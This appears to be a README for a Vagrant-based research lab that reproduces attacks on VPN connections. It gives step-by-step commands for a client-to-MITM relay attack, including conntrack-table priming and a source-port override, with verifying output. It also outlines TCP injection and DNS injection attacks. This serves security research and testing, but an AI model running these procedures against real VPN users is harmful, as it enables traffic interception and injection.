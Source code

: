 # Overview

Each attack has its own Vagrantfile for ease of configuration. The attack descriptions
are located in the `Attack`` directory.

# virt-lab

VM lab environment for perform attacks. This implementation is a minimal deployment for
doing testing the attacks on a laptop with 16 GB RAM and 4 processors. The full 7 VM network
can be deployed by using the Vagrant.bignet file. Some modifications may be required for
that to work as I have not tested in some time.

### Requirements

* Virtualbox (5.2 or older)
* Vagrant 2.2.x

### Setup base virtual network

1. Start all VMs: `./boot_all.sh`
2. Go do something else cause its gonna take a while..
3. (Optional) ssh to some machine: 
  * ssh by port: `ssh -l vagrant localhost -p 22111`  
  * ssh with vagrant: `vagrant ssh <VM NAME>` (ex. `vagrant ssh attacker`)
![picture](diagrams/c2mitm-topology.jpg)

### Full c2mitm attack

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/full-relay enp0s8 192.168.169.254 192.168.1.2 192.168.2.2 1194# Possibly run in tmux session` # Start the relay

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 

TODO: Add some more info to describe how to verify the attack work (it will be similiar to description for the simplified attack below).


### Simplified c2mitm attack (don't bother spamming the ephemeral port range of the victim just yet)

#### Force victim's source port to be 31338 

1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh victim` 
2. `vagrant@victim:~$ sudo /vagrant/overwrite-sport-on-victim.sh`

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/simple-relay# Possibly run in tmux session` # Start the relay

5. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/prime-vpn-conntrack-table.sh 1194 31338 192.168.1.2` 

NOTE: The packets from (5.) only hang around in the VPN server's conntrack table for 30 seconds in the case of a UDP tunnel, so it
is important that the following step be performed within that time.

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 


Now, when you log into the VPN server, and run:

```bash
$ sudo conntrack -L | grep 1194
vagrant@vpnserver:/var/log$ sudo conntrack -L | grep 1194
udp      17 178 src=10.8.0.6 dst=192.168.1.2 sport=1194 dport=31338 src=192.168.1.2 dst=192.168.2.2 sport=31338 dport=1194 [ASSURED] mark=0 use=1
udp      17 177 src=192.168.169.254 dst=192.168.2.2 sport=31338 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=31338 [ASSURED] mark=0 use=1
udp      17 178 src=192.168.169.254 dst=192.168.2.2 sport=54075 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=54075 [ASSURED] mark=0 use=1

```

You should see that the victim's NAT IP (192.168.1.2) is not the src in the
entry with `sport=31338` but instead the attacker's IP is. That is because the
attacker is acting as a NAT for the client. If you log into the attacker and
take pcaps, you will see packets from the client to the attacker's `tun0`
address (likely, 10.8.0.6) followed by packets from the attacker's public IP
address (192.168.169.254) to the VPN server (which are packets the relay is
NAT).


# DEPRECATED/NEEDS UPDATE

## Client-Side Attack

#### Configure client side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_cliside_env.sh`

#### Test client side attack 


1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to web server node (base host): `cd virt-lab/edgers/web-server && vagrant ssh`
4. Open another shell to ssh to gateway attacker node (base host): `cd virt-lab/routers/gateway && vagrant ssh`
5. On web-server vm, open a netcat connection for the client to connect to: `nc -l 8080`
6. On the client vm, connect to the web server: `nc 192.168.3.2 8080 -p 40404`
7. On the attacker vm, navigate to the attack folder: `cd ChangeMe/client-side-attack`
8. Rebuild all the attack scripts (attacker): `./rebuild_all.sh`
9. Navigate to full attack folder (attacker): `cd complete_attack`
10. Start full attack script (attacker): `./attack.sh`
11. Wait for script to infer private tun IP, port in use, exact sequence number, and in-window ack number needed to inject TCP

## Server-Side Attack
 
#### Configure server side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_servside_env.sh.sh`


#### Test server side DNS attack

1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to router1 attacker node (base host): `cd virt-lab/routers/router1 && vagrant ssh`
4. On the attack router vm navigate to dns inject folder: `cd ChangeMe/server-side-attack/dns-sside/full_scan/`
5. Compile full attack script (attacker): `make` 
6. Issue DNS lookup from client vm: `nslookup yo.com 192.168.3.2`
7. Start inject script from attacker node: `./inject_test.sh` 

## Teardown

1. Stop all the VMs: `./stop_all.sh`
2. Destroii all VMs in our path: `./destroy_all.sh`


